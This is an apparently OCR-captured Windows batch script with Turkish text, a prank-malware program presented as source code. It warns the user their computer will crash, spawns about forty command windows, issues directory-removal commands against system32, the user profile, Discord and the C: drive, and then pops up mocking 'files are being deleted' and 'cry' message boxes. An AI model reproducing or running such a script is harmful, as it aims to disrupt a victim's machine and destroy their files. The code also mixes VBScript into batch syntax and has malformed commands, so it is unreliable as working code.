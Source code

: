 @echo"Esc" Tuşuna Basarak Çıkış Yapmazsanız Bilgisayarınız Çökecektir...
Pause>nul
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
start
rd Bu Bilgisayar
rd Yerel Disk (C:)
rd system32
rd system32
rd system32
rd system
rd %username%
rd Discord
X=MsgBox("Dosyalar Siliniyor",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"
X=MsgBox("Ağla HAHAHAHAH",0+16,"Başlık"